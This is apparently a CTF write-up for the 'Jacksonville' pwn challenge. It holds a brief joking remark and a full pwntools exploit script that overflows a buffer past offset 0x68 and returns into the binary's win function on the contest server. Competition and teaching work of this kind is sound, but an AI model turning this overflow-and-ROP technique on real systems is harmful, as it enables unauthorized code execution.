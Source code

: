 ### Information

- Category: Pwn
- Points: 100

### Description

> The Jacksonville Jaguars are having a rough season, let's cheer them on!!

### Write-up

First Blood! 没难度，就是平台在开玩笑，拿到 flag 了提交上去告诉我不对……然后我疯狂按提交按钮结果就成功了……

### Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ROP,
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "./jacksonville"
HOST, PORT = "chal.sunshinectf.games", 25602

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
rop = ROP(elf)


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    answer = b"aaaaaaJaguars\x00"
    length = len(answer)

    payload = flat(
        answer,
        b"A" * (0x68 - length),
        rop.ret.address,
        elf.sym["win"],
    )
    raw_input("DEBUG")
    target.sendlineafter(b"> ", payload)

    target.interactive()


```